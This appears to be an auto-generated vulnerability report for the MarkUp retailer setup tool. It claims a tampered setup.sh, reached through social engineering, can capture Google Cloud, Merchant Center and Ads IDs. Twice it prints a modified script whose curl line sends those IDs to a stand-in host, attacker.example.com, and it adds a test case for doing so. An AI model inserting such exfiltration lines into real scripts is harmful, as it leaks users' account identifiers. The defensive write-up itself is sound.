 ### Vulnerability List

- Vulnerability Name: Data Exfiltration via Modified Setup Script
- Description:
    1. An attacker with malicious intent crafts a modified version of the `setup.sh` script.
    2. This modified script includes additional commands to exfiltrate sensitive information before executing the original script's logic.
    3. The attacker uses social engineering techniques to trick a retailer into downloading and executing this compromised `setup.sh` script instead of the legitimate one.
    4. When the retailer executes the modified script, it first runs the attacker's malicious commands.
    5. These malicious commands can capture the command-line arguments provided by the retailer, such as `project_id`, `merchant_id`, and `ads_customer_id`, which are essential for accessing their Google Merchant Center and Google Ads data.
    6. The captured sensitive information is then sent to an attacker-controlled external server via a network request (e.g., using `curl` or `wget`).
    7. After exfiltrating the data, the modified script proceeds to execute the original logic of the `setup.sh` script, potentially masking the compromise and allowing the data transfer setup to proceed as seemingly normal.
- Impact:
    - Exposure of sensitive Google Cloud Project ID, Google Merchant Center ID, and Google Ads Customer ID to the attacker.
    - This information allows the attacker to identify and target the retailer's specific Google accounts.
    - The attacker can use these IDs to attempt further attacks, such as trying to gain unauthorized access to the retailer's Google Merchant Center and Google Ads data, or impersonating the retailer.
    - While this vulnerability does not directly exfiltrate the Merchant Center or Ads data itself, it provides the attacker with the necessary identifiers to potentially conduct more sophisticated attacks aimed at data exfiltration or account compromise.
- Vulnerability Rank: Medium
- Currently Implemented Mitigations:
    - None. The provided project does not include any measures to prevent the execution of modified scripts or to verify the integrity of the `setup.sh` script.
- Missing Mitigations:
    - **Integrity Checks:** Implement integrity checks for the `setup.sh` script, such as using checksums or digital signatures, to ensure that users are running the genuine script and not a modified version.
    - **Secure Distribution:** Provide the `setup.sh` script through a secure and trusted channel, advising users to download it directly from the official repository and verify its source.
    - **User Warnings:** Include clear warnings in the documentation and on the download page about the risks of running scripts from untrusted sources and the importance of verifying the script's integrity.
    - **Input Validation (Limited Mitigation):** While not directly preventing this exfiltration vulnerability, robust input validation in the Python scripts called by `setup.sh` can mitigate some downstream risks if the attacker tries to inject malicious commands through parameters *after* gaining initial access via script modification.
- Preconditions:
    - The attacker must successfully employ social engineering to convince a retailer to download and execute a modified version of the `setup.sh` script.
    - The retailer must provide valid Google Cloud Project ID, Google Merchant Center ID, and Google Ads Customer ID as command-line arguments when running the modified `setup.sh` script.
- Source Code Analysis:
    1. **`setup.sh` script:** The `setup.sh` script is the entry point for the tool's installation. It directly executes `python cloud_env_setup.py "$@"`.
    ```bash
    #!/bin/bash
    # MarkUp setup script.

    set -e

    VIRTUALENV_PATH=$HOME/"markup-venv"

    # Create virtual environment with python3
    if [[ ! -d "${VIRTUALENV_PATH}" ]]; then
      virtualenv -p python3 "${VIRTUALENV_PATH}"
    fi


    # Activate virtual environment.
    source ~/markup-venv/bin/activate

    # Install dependencies.
    pip install -r requirements.txt

    # Setup cloud environment.
    PYTHONPATH=src/plugins:$PYTHONPATH
    export PYTHONPATH
    python cloud_env_setup.py "$@"
    ```
    2. **Vulnerability Point:** The vulnerability lies in the lack of integrity checks on the `setup.sh` script itself. An attacker can modify this script to insert malicious commands before the call to `python cloud_env_setup.py "$@"`.
    3. **Malicious Modification Example:** An attacker could modify `setup.sh` to include commands that exfiltrate the command-line arguments before the original script logic begins. For example, adding the following lines at the beginning of `setup.sh`:
    ```bash
    #!/bin/bash
    # Modified setup.sh by malicious actor

    # Exfiltration of command-line arguments
    PROJECT_ID=$(echo "$@" | awk -F'--project_id=' '{print $2}' | awk -F' ' '{print $1}')
    MERCHANT_ID=$(echo "$@" | awk -F'--merchant_id=' '{print $2}' | awk -F' ' '{print $1}')
    ADS_CUSTOMER_ID=$(echo "$@" | awk -F'--ads_customer_id=' '{print $2}' | awk -F' ' '{print $1}')

    curl "https://attacker.example.com/exfiltrate?project_id=$PROJECT_ID&merchant_id=$MERCHANT_ID&ads_customer_id=$ADS_CUSTOMER_ID"

    # Original setup.sh script content starts here
    set -e

    VIRTUALENV_PATH=$HOME/"markup-venv"
    # ... rest of the original setup.sh script ...
    ```
    4. **Execution Flow:** When the retailer runs the modified `setup.sh` with command-line arguments, the added malicious code will execute first. This code extracts `project_id`, `merchant_id`, and `ads_customer_id` from the command-line arguments and sends them to `attacker.example.com`. After the exfiltration, the script proceeds to execute the original virtual environment setup, dependency installation, and the call to `cloud_env_setup.py`. This makes the malicious activity less obvious to the victim.

- Security Test Case:
    1. **Setup Attacker Server:** Prepare a simple HTTP server (e.g., using `netcat` or Python's `http.server`) to listen for incoming requests from the modified `setup.sh` script. Let's say the attacker server is listening on `attacker.example.com` at port 80.
    2. **Modify `setup.sh`:**  Modify the original `setup.sh` script by adding the malicious code snippet from the Source Code Analysis step at the beginning of the file. Replace `attacker.example.com` with the actual address of your test server.
    ```bash
    #!/bin/bash
    # Modified setup.sh by malicious actor

    # Exfiltration of command-line arguments
    PROJECT_ID=$(echo "$@" | awk -F'--project_id=' '{print $2}' | awk -F' ' '{print $1}')
    MERCHANT_ID=$(echo "$@" | awk -F'--merchant_id=' '{print $2}' | awk -F' ' '{print $1}')
    ADS_CUSTOMER_ID=$(echo "$@" | awk -F'--ads_customer_id=' '{print $2}' | awk -F' ' '{print $1}')

    curl "http://attacker.example.com/exfiltrate?project_id=$PROJECT_ID&merchant_id=$MERCHANT_ID&ads_customer_id=$ADS_CUSTOMER_ID"

    # Original setup.sh script content starts here
    set -e

    VIRTUALENV_PATH=$HOME/"markup-venv"
    # ... rest of the original setup.sh script ...
    ```
    3. **Victim Execution:**  As a retailer (victim), execute the modified `setup.sh` script with valid parameters for your test Google Cloud project, Merchant Center, and Ads accounts:
    ```bash
    cd shopping-markup;
    sh setup.sh --project_id=your-gcp-project-id --merchant_id=your-merchant-id --ads_customer_id=your-ads-customer-id --market_insights=False
    ```
    4. **Verify Exfiltration:** Check the logs of your attacker server. You should see an HTTP GET request to `/exfiltrate` containing the `project_id`, `merchant_id`, and `ads_customer_id` as query parameters. This confirms that the sensitive information has been successfully exfiltrated to the attacker-controlled server before the original script logic was executed.
    5. **Observe Normal Execution (Optional):** The rest of the `setup.sh` script should continue to execute, setting up the virtual environment and calling the Python script. If no errors occur in the original script logic (which was not modified to break functionality), the retailer might not immediately suspect any malicious activity, as the setup process might appear to proceed normally after the initial data exfiltration.